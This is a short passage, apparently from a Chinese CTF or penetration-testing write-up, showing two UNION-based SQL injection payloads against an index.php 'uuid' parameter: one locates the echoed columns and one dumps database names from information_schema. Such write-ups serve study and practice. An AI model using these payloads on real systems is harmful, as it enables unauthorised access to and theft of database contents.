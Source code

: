 找回显点`index.php?uuid=1' union select 1,2,3,4,5,6-%23-%20`
![upload successful](./images/pasted-793.png)

注库名`index.php?uuid=1' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata -%23-%20`
![upload successful](./images/pasted-794.png)
